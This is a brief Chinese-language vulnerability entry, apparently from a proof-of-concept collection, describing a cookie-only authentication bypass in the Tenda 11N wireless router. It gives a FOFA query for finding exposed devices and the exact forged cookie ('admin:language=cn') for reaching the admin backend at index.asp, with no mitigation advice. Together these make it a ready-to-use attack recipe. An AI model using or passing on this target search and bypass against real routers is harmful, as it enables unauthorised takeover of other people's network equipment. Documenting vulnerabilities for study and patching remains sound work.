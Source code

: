 # Tenda 11N无线路由器 Cookie 越权访问漏洞

## 漏洞描述

Tenda 11N无线路由器由于只验证Cookie，导致任意用户伪造Cookie即可进入后台

## 漏洞影响

<a-checkbox checked>Tenda 11N无线路由器</a-checkbox></br>

## FOFA

<a-checkbox checked>app="TENDA-11N无线路由器"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1646009335970-22d7f17e-3801-4d3b-bf5a-e7fa2b17749f.png)

添加Cookie, 访问 index.asp 进入后台

```javascript
admin:language=cn
```

![img](../../../.vuepress/public/img/1646009376481-0c885988-16f4-4a01-bd46-5d126a6b9d8d.png)



